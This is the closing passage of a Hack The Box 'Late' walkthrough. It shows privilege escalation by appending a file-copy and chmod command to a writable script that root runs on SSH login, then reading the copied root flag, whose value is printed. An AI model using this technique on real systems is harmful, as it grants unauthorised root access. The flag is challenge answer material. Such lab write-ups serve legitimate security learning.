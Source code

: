 ```text
svc_acc@late:~$ echo "cp /root/root.txt /dev/shm/root.txt; chmod 777 /dev/shm/root.txt" >> /usr/local/sbin/ssh-alert.sh
```

Here I'm copying the root flag to a temporary area and changing permissions so I can read it as a user. Now I can log in to a new SSH session, the script is run and the flag is copied so I can read it:

```text
┌──(root㉿kali)-[~/htb/late]
└─# ssh -i id_rsa svc_acc@late.htb

svc_acc@late:~$ ls -lsa /dev/shm
4 -rwxrwxrwx  1 root root   33 Apr 26 21:08 root.txt

svc_acc@late:~$ cat /dev/shm/root.txt 
f98a55d412b6b72a64a84194764f9196
```

All done. That was a simple box once I got the OCR working. See you next time.
